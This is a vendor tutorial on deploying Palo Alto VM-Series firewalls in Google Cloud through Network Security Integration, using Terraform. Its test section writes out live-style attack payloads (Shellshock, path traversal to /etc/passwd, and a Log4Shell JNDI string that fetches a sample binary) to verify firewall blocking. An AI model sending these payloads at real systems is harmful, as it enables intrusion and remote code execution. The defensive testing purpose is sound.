


# Software NGFW with Network Security Integration

This tutorial shows how to deploy Palo Alto Networks Software Firewalls in Google Cloud, utilizing either the *[in-band](https://docs.cloud.google.com/network-security-integration/docs/in-band/in-band-integration-overview)* or *[out-of-band](https://docs.cloud.google.com/network-security-integration/docs/out-of-band/out-of-band-integration-overview)* deployment model within the [Network Security Integration](https://cloud.google.com/network-security-integration/docs/nsi-overview) (NSI).  NSI provides visibility and security for your VPC network traffic without requiring changes to your underlying network infrastructure. 

The functionality of each model is summarized as follows:

| Model           | Description             |
| --------------- | ----------------------- |
| **Out-of-Band** | Uses packet mirroring to forward a copy of network traffic to Software Firewalls for *out-of-band* inspection. Traffic is mirrored to your software firewalls by creating mirroring rules within your network firewall policy. |
| **In-Band**     | Uses packet intercept to steer network traffic to Software Firewalls for *in-line* inspection. Traffic is steered to your software firewalls by creating firewall rules within your network firewall policy. |

This tutorial is intended for network administrators, solution architects, and security professionals who are familiar with [Compute Engine](https://cloud.google.com/compute) and [Virtual Private Cloud (VPC) networking](https://cloud.google.com/vpc).


## Architecture

NSI follows a *producer-consumer* model, where the *consumer* consumes services provided by the *producer*. The *producer* contains the cloud infrastructure responsible for inspecting network traffic, while the *consumer* environment contains the cloud resources that require inspection.


### Producer Components

The producer creates firewalls which serve as the backend service for an internal load balancer. For each zone requiring traffic inspection, the producer creates a forwarding rule, and links it to an *intercept* or *mirroring* *deployment* which is a zone-based resource. These are consolidated into a *deployment group*, which is then made accessible to the consumer.

| Component | Description |
| :---- | :---- |
| [Load Balancer](https://cloud.google.com/network-security-integration/docs/out-of-band/configure-producer-service#create-int-lb-pm) | An internal network load balancer that distributes traffic to the NGFWs. |
| [Deployments](https://cloud.google.com/network-security-integration/docs/out-of-band/deployments-overview) | A zonal resource that acts as a backend of the load balancer, providing network inspection on traffic from the consumer. |
| [Deployment Group](https://cloud.google.com/network-security-integration/docs/out-of-band/deployment-groups-overview) | A collection of intercept or mirroring deployments that are set up across multiple zones within the same project.  It represents the firewalls as a service that consumers reference. |
| [Instance Group](https://cloud.google.com/compute/docs/instance-groups) | A managed or unmanaged instance group that contains the firewalls which enable horizontal scaling. |


#### Zone Affinity Considerations

Because the internal load balancer does not support zone-based affinity, consider these firewall deployment architectures:

* **Zone-Based**: Ensures traffic is inspected by a firewall in the same zone as the consumer's source zone.
* **Cross-Zone**: Allows traffic to be inspected by any firewall within the same region as the traffic's source.

<table>
  <tr>
    <!-- Title cell with left alignment -->
    <th colspan="2" align="left">Zone-Based Deployment</th>
  </tr>
  <tr>
    <td width="35%"></td>
    <td width="65%">
      <ol>
        <li>Deploy the firewalls to a zone instance group corresponding to the source zone of the consumer.</li>
        <li>Add the instance group to a backend service.</li>
        <li>Create a forwarding rule targeting the backend service.</li>
        <li>Link the forwarding rule to an intercept/mirroring deployment that matches the zone you are inspecting.</li>
        <li>Add the deployment to a deployment group.</li>
        <li><b>Repeat steps 1-5</b> for each zone requiring inspection.</li>
      </ol>
    </td>
  </tr>
  <tr>
    <!-- Title cell with left alignment -->
    <th colspan="2" align="left">Cross-Zone Deployment</th>
  </tr>
  <tr>
    <td width="35%"></td>
    <td width="65%">
      <ol>
        <li>Deploy the firewalls to a regional instance group matching the source region of the consumer.</li>
        <li>Add the instance group to a backend service.</li>
        <li>Create a forwarding rule targeting the backend service.</li>
        <li>Link the forwarding rule to an intercept/mirroring deployment matching the zone you wish to inspect.</li>
        <li>Add the deployment to the deployment group.</li>
        <li><b>Repeat steps 3-5</b> for each zone requiring inspection.</li>
      </ol>
    </td>
  </tr>
</table>

<br>

### Consumer Components

The consumer creates an *intercept* or *mirroring* *endpoint group* corresponding to the producer's *deployment group*. Then, the consumer associates the endpoint group with VPC networks requiring inspection. 

Finally, the consumer creates a network firewall policy with rules that use a *security profile group* as their action.  Traffic matching these rules is intercepted or mirrored to the producer for inspection.

| Component | Description |
| :---- | :---- |
| [Endpoint Group](https://cloud.google.com/network-security-integration/docs/out-of-band/endpoint-groups-overview) | A project-level resource that directly corresponds to a producer's deployment group. This group can be associated with multiple VPC networks. |
| [Endpoint Group Association](https://cloud.google.com/network-security-integration/docs/out-of-band/configure-mirroring-endpoint-group-associations) | Associates the endpoint group to consumer VPCs. |
| [Firewall Rules](https://cloud.google.com/firewall/docs/network-firewall-policies) | Exists within Network Firewall Policies and select traffic to be intercepted or mirrored for inspection by the producer. |
| [Security Profiles](https://cloud.google.com/network-security-integration/docs/security-profiles-overview) | Can be type `intercept` or `mirroring` and are set as the action within firewall rules. |

<br>

### Traffic Flow Example

The network firewall policy associated with the `consumer-vpc` contains two rules, each specifying a security profile group as its action.  When traffic matches either rule, the traffic is encapsulated to the producer for inspection. 

<table>
  <tr>
    <!-- Title cell with left alignment -->
    <th colspan="5" align="center">Network Firewall Policy</th>
  </tr>
    <tr>
        <th>PRIORITY</th>
        <th>DIRECTION</th>
        <th>SOURCE</th>
        <th>DESTINATION</th>
        <th>ACTION</th>
    </tr>
    <tr>
        <td><code>10</code></td>
        <td><code>Egress</code></td>
        <td><code>10.0.0.0/8</code></td>
        <td><code>0.0.0.0/0</code></td>
        <td><code>apply-security-profile</code></td>
    </tr>
    <tr>
        <td><code>11</code></td>
        <td><code>Ingress</code></td>
        <td><code>0.0.0.0/0</code></td>
        <td><code>10.0.0.0/8</code></td>
        <td><code>apply-security-profile</code></td>
    </tr>
</table>

> [!NOTE]
> In the *out-of-band* model, traffic is mirrored to the firewalls instead of redirected.traffic would be mirrored to the firewalls instead of redirected.  


#### Traffic to Producer


1. The `web-vm` makes a request to the internet. The request is evaluated against the rules within the Network Firewall Policy associated with the `consumer-vpc`.
2. The request matches the `EGRESS` rule (priority: `10`) that specifies a security profile group as its action.
3. The request is then encapsulated through the `endpoint association` to the producer environment.
4. Within the producer environment, the `intercept deployment group` directs traffic to the `intercept deployment` located in the same zone as the `web-vm`.
5. The internal load balancer forwards the traffic to an available firewall for deep packet inspection.

#### Traffic from Producer


1. If the firewall permits the traffic, it is returned to the `web-vm` via the consumer's `endpoint association`.
2. The local route table of the `consumer-vpc` routes traffic to the internet via the Cloud NAT.
3. The session is established with the internet destination and is continuously monitored by the firewall. 

---

<br>

## Requirements

1. A Google Cloud project.
2. Access to [Cloud Shell](https://shell.cloud.google.com). 
3. The following IAM Roles:

    | Ability | Scope | Roles |
    | :---- | :---- | :---- |
    | Create [firewall endpoints](https://cloud.google.com/firewall/docs/about-firewall-endpoints#iam-roles), [endpoint associations](https://cloud.google.com/firewall/docs/about-firewall-endpoints#endpoint-association), [security profiles](https://cloud.google.com/firewall/docs/about-security-profiles#iam-roles), and [network firewall policies](https://cloud.google.com/firewall/docs/network-firewall-policies#iam). | Organization | `compute.networkAdmin`<br>`compute.networkUser`<br>`compute.networkViewer` |
    | Create [global network firewall policies](https://cloud.google.com/firewall/docs/use-network-firewall-policies#expandable-1) and [firewall rules](https://cloud.google.com/firewall/docs/use-network-firewall-policies#expandable-8) for VPC networks. | Project | `compute.securityAdmin`<br>`compute.networkAdmin`<br>`compute.networkViewer`<br>`compute.viewer`<br>`compute.instanceAdmin` |

> [!NOTE]
> In production environments, it is recommended to deploy the producer resources to a dedicated project.  This ensures the security services are managed independently of the consumer.

---

<br>

## Create Producer Environment 
The Terraform plan in the producer directory creates the producer's VPCs, instance template, instance group, internal load balancer, intercept/mirroring deployment, and intercept/mirroring deployment group. 


> [!NOTE]  
> This Terraform deployment automatically bootstraps the firewalls with a baseline configuration. To bypass bootstrapping and configure the firewalls manually for NSI, see the [PAN-OS Configuration Guide](/docs/panos_config.md).

1. In [Cloud Shell](https://shell.cloud.google.com) install Git LFS if it isn't already present.

    ```bash
    sudo apt-get install -y git-lfs
    git lfs install
    ```

2.  Clone the repository and navigate to the `producer` directory.

    ```bash
    git clone https://github.com/PaloAltoNetworks/google-cloud-nsi-tutorial
    cd google-cloud-nsi-tutorial/producer
    git lfs pull
    ```

3. Create a `terraform.tfvars` file. 

    ```bash
    cp terraform.tfvars.example terraform.tfvars
    ```

4. Edit `terraform.tfvars` by setting values for the following variables:  

    | Key | Value | Default |
    | :---- | :---- | :---- |
    | `project_id` | The Google Cloud project ID of the producer environment. | `null` |
    | `mgmt_allow_ips` | A list of IPv4 addresses which have access to the firewall's mgmt interface. | `["0.0.0.0/0"]` |
    | `mgmt_public_ip` | If true, the management address will have a public IP assigned to it. | `true` | 
    | `region` | The region to deploy the consumer resources. | `us-west1` |
    | `image_name` | The firewall image to deploy. | `vmseries-flex-bundle2-1126`|
    | `mirror_deployment` | If `true` a mirroring deployment is created instead of an intercept deployment. | `false` |

    > Always set `mgmt_public_ip = false` in production to prevent exposing the MGT NIC to the internet.
    
    > If using a BYOL image (`vmseries-flex-byol-*`), add your authcode to `bootstrap_files/authcodes` before deploying. See [Bootstrap Methods](https://docs.paloaltonetworks.com/vm-series/11-1/vm-series-deployment/bootstrap-the-vm-series-firewall) for details.


5. Initialize and apply the terraform plan.

    ```bash
    terraform init
    terraform apply
    ```

    Enter `yes` to apply the plan.

6. After the apply completes, terraform displays the following message:

    <pre>
    Apply complete! Resources: 41 added, 0 changed, 0 destroyed.

    Outputs:

    DEPLOYMENT_GROUP = <b>"projects/your-project-id/locations/global/interceptDeploymentGroups/panw-dg"</b></pre>

> [!IMPORTANT]
> Record the **`DEPLOYMENT_GROUP`** output value.
>
> This is needed later to link your consumer's endpoint group to the producer's deployment group.


<br>


### Access the NGFW


1. In Cloud Shell, set environment variables for the NGFW's management IP, region, and zone. 

    ```bash
    read FW_NAME FW_IP FW_ZONE <<< $(gcloud compute instances list \
        --filter='tags.items=(panw-tutorial)' \
        --format='value(name, EXTERNAL_IP, zone)')

    export FW_REGION=$(gcloud compute zones describe $FW_ZONE \
        --format='value(region.basename())')
    ```

2. SSH into the NGFW.

    ```bash
    gcloud compute ssh admin@$FW_NAME --zone=$FW_ZONE
    ```

> [!CAUTION]
> If your SSH connection **fails** or **prompts for a password**, the system is still booting—wait a few minutes and try again.

3. On the NGFW, configure the `admin` user. 
    * Set a password for `admin` user.

        ```text
        configure
        set mgt-config users admin password
        ```

    * Commit the changes. 

        ```text
        commit
        ```

    * Type `exit` twice to close the SSH session. 

        ```text
        exit
        exit
        ```

4. In Cloud Shell, output the NGFW's management IP, then access the NGFW's interface in a browser.

    ```bash
    echo https://$FW_IP
    ```

<br>

### Verify Health Checks

1. In Cloud Shell, verify the health status of the load balancer’s forwarding rules. 

    ```bash
    gcloud compute backend-services get-health \
        $(gcloud compute backend-services list --regions=$FW_REGION --format="value(name)" --limit=1) \
        --region=$FW_REGION \
        --format="json(status.healthStatus[].forwardingRuleIp,status.healthStatus[].healthState)"
    ```

    (output)

    <pre>
    "healthStatus": [
        {
           "forwardingRuleIp": "10.0.1.3",
           "healthState": <b>"HEALTHY"</b>
        },
        {
           "forwardingRuleIp": "10.0.1.2",
           "healthState": <b>"HEALTHY"</b>
        },            
        {
           "forwardingRuleIp": "10.0.1.4",
           "healthState": <b>"HEALTHY"</b>
        }
    ]</pre>

> [!NOTE]
> This terraform plan creates a **Cross-Zone** deployment to inspect traffic across the entire region. Consequently, it provisions a forwarding rule for every zone within that region.

---

<br>

## Create Consumer Environment
In the `consumer` directory, use the terraform plan to create the consumer VPC (`consumer-vpc`), VMs (`client-vm` & `web-vm`), and GKE cluster (`cluster1`).  It also creates a Network Firewall Policy to intercept/mirror traffic to an endpoint group. 

> [!NOTE]
> If you already have an existing consumer environment, go to [Connect an Existing Consumer Environment](/docs/existing_consumer.md).


1. In Cloud Shell, change to the `consumer` directory and create your variables file.

    ```bash
    cd
    cd google-cloud-nsi-tutorial/consumer
    cp terraform.tfvars.example terraform.tfvars
    ```

2. Edit `terraform.tfvars` by setting values for the following variables:  
    

    | Variable | Description | Default |
    | :---- | :---- | :---- |
    | `org_id` | Your Google Cloud organization ID. | `null` |
    | `project_id` | The project ID of the consumer environment. | `null` |
    | `producer_dg` | The FQRN of the producer's deployment group (the `DEPLOYMENT_GROUP` output value). | `null` |
    | `mgmt_allowed_ips` | A list of IPv4 addresses that can access the VMs on `TCP:80,22`. | `["0.0.0.0/0"]` |
    | `region` | The region to deploy the consumer resources. | `us-west1` |
    | `mirror_deployment` | If `true` a mirroring deployment is created instead of an intercept deployment. | `false` |

> [!NOTE]
> Set `producer_dg` to the exact `DEPLOYMENT_GROUP` value generated by the producer's Terraform output.

3. Initialize and apply the terraform plan.

    ```bash
    terraform init
    terraform apply
    ```

    Enter `yes` to apply the plan.

4. After the apply completes, terraform displays the following message:

    ```text
    Apply complete! Resources: 23 added, 0 changed, 0 destroyed.

    Outputs:

    CONSUMER_PROJECT = project-id01
    CONSUMER_VPC     = consumer-vpc
    REGION           = us-west1
    ZONE             = us-west1-a
    CLIENT_VM        = client-vm
    CLUSTER          = cluster1
    ```


---

<br>

## Test Inspection

Test traffic inspection by generating simulated attacks across your environment to ensure the firewalls successfully detect and prevent threats.


### GCE Inspection
Test both East-West (VM-to-VM) and North-South (VM-to-Internet) inspection flows.

1. In Cloud Shell, use the `client-vm` to generate simulated malicious traffic targeting the `web-vm` (east/west) and the `internet` (north/south).

    ```bash
    read CLIENT_VM CLIENT_ZONE <<< $(gcloud compute instances list \
        --filter="name~'client-vm'" \
        --format="value(name, zone)" \
        --limit=1)

    gcloud compute ssh $CLIENT_VM \
        --zone=$CLIENT_ZONE \
        --tunnel-through-iap \
        --command="bash -s" << 'EOF'
    curl -s -o /dev/null -w "%{http_code}\n" http://www.eicar.org/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh --data "echo Content-Type: text/plain; echo; uname -a" --max-time 2
    curl -s -o /dev/null -w "%{http_code}\n" http://www.eicar.org/cgi-bin/user.sh -H "FakeHeader:() { :; }; echo Content-Type: text/html; echo ; /bin/uname -a" --max-time 2
    curl -s -o /dev/null -w "%{http_code}\n" http://10.1.0.20/cgi-bin/user.sh -H "FakeHeader:() { :; }; echo Content-Type: text/html; echo ; /bin/uname -a" --max-time 2
    curl -s -o /dev/null -w "%{http_code}\n" http://10.1.0.20/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd --max-time 2 nmap -A 10.1.0.20
    EOF
    ```

    (output)
    
    <pre>
    <b>000
    000 
    000
    000
    000</b></pre>

    > The `000` response codes indicate that the traffic was blocked by the producer. 


2. On the firewall, go to **Monitor → Threat** to confirm the firewall prevented the north/south and east/west threats generated by the `client-vm` .

    

<br>


### GKE Inspection

Test East-West (Pod-to-Pod) traffic within `cluster1`.

> [!NOTE]
> To inspect pod-to-pod traffic using Network Security Integration (NSI), the cluster must have [intranode visibility](https://cloud.google.com/kubernetes-engine/docs/how-to/intranode-visibility) enabled. This ensures that even traffic between pods residing on the *same* node is forced out to the network and routed through the firewall.

1. In Cloud Shell, authenticate to the GKE cluster (`cluster1`).  

    ```
    read CLUSTER_NAME CLUSTER_LOCATION <<< $(gcloud container clusters list \
        --filter="resourceLabels.panw=true" \
        --format="value(name, location)" \
        --limit=1)

    gcloud container clusters get-credentials $CLUSTER_NAME --location=$CLUSTER_LOCATION
    ```

2. Deploy a `victim` and `attacker` pod.

    ```
    kubectl apply -f https://raw.githubusercontent.com/PaloAltoNetworks/google-cloud-nsi-tutorial/main/consumer/yaml/demo.yaml
    ```

3. Extract the IPs of the `victim` and `attacker` pods and save them as environment variables.

    ```
    export VICTIM_IP=$(kubectl get pod victim --template '{{.status.podIP}}')
    export ATTACK_IP=$(kubectl get pod attacker --template '{{.status.podIP}}')
    sleep 3
    echo "VICTIM IP: $VICTIM_IP"
    echo "ATTACK IP: $ATTACK_IP"
    ```
    > Record the pod IP addresses to reference later.

4. Attempt to exploit the vulnerability on the `victim` pod.

    ```
    echo "Sending Log4Shell payload..."
    kubectl exec -it attacker -- curl -s -o /dev/null -w "HTTP Code: %{http_code}\n" http://$VICTIM_IP/ -H 'X-Api-Version: ${jndi:ldap://attacker-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}' --max-time 2

    echo "Sending Directory Traversal payload..."
    kubectl exec -it attacker -- curl -s -o /dev/null -w "HTTP Code: %{http_code}\n" http://$VICTIM_IP/cgi-bin/../../../../etc/passwd --max-time 2
    ```

    (output)

    <pre><b>HTTP Code: 000
    command terminated with exit code 2</b></pre>

    > The `time out` response indicates the producer blocked the connection. 
    > If using mirroring, the traffic will be allowed.


5. On the firewall, go to **Monitor → Threat** to view the threat between the `attacker` and `victim` pods (both pods fall within the `10.20.0.0/16` space)  

    

> [!NOTE]
> Traffic logs now show the true Pod IP (`10.20.0.0/16`) instead of the underlying Node IP. This visibility allows you to enforce precise, pod-level security policies and leverage the Kubernetes plugin for automated enforcement.

---

<br>

## Delete Resources

### Delete Consumer Resources

1. Run `terraform destroy` from the `consumer` directory.

    ```
    cd
    cd google-cloud-nsi-tutorial/consumer
    terraform destroy
    ```

2. Enter `yes` to delete all consumer resources.
 
### Delete Producer Resources

1. Run `terraform destroy` from the `/producer` directory.

    ```
    cd
    cd google-cloud-nsi-tutorial/producer
    terraform destroy
    ```

2. Enter `yes` to delete all producer resources.
